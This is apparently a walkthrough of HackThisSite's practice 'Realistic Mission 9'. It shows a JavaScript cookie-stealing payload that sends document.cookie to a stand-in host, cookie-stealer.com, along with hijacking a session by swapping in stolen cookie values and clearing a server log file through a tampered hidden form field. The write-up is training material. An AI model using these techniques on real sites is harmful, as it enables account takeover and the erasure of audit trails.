



# Mission 9 - CrappySoft Software

## Task description

The boss over at CrappySoft has stopped paying his employees, and your friend is in need of money, fast. Help them get their salary paid.

<details>
  <summary>Full description</summary>


From:

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at [Crappy Soft](http://www.hackthissite.org/missions/realistic/9/). They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

</details>

## Answer

As a first step, I decided to familiarize myself with the site after logging into the account provided. After entering the Private Message tab, a form appeared that allows you to send messages to employees and to your boss. I decided to check the following sectors there:
- source code
- cookies via Inspect -> Data -> Cookies
- response to the sent request

After examining these aspects, I concluded that I might be able to get a cookie that allows the use of the `m-crap` account. To this end, I ran the following command:

```
javascript:void(window.location="https://cookie-stealer.com/steal?cookie=")+document.cookie)
```

How it works:

- `javascript:`: A JavaScript protocol that allows a script to execute in the browser.
- `void`: The void function returns undefined, but is often used in this context to make sure the script is executed without redirecting the page.
- `window.location`: Sets the new location (URL) of the page.
- `“https://cookie-stealer.com/steal?cookie=”+document.cookie`: Creates a URL that sends cookies to the malicious page.

After executing this code, the following message was returned to the page:

`It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;`.


The next step was to go to the Pay Salaries website. The first time I went there I didn't have access, so now having username and password I decided to swap them with the currently loaded cookies. The swapped cookies look as follows:

<p align="center">
  
</p>

This allowed the page to load correctly and make the outstanding payment. After completing this step, the following message appeared:

`YHEE THANKS MAN!! Thank's for my salary you really own!!
dont forget to clean the logs by subscribing to them!! `

While browsing the Demo site, I came across a reference to a directory in the code `files/`: `Download <a href=“./files/downloads/CrappyDemo.exe.zip”><font color=“BLACK”><b>HERE!</b></font></a></div>`

I decided to see if I was able to enter this location. It turned out to be possible!

<p align="center">
  
</p>

There is an interesting directory `logs/`, and in it is a file `logs.txt`. This is most likely the place from where I need to clear the data.

In addition to that, you can also see `mailinglist/` where there is a file responsible for storing email addresses subscribed to the mailing list.

Knowing this information, I went to the Mailing List tab, where I checked the source code. There are `strFilename` and `strEmailAddress` fields in the form. I decided to use them in such a way that:
- `strEmailAddress` field contains an empty value,
- `strFilename` field points to `files/logs/logs.txt`.

This can be seen in the image below:
<p align="center">
  
</p>

After clicking on the `Subscribe!` button, the data was erased from the log file, allowing me to complete the task.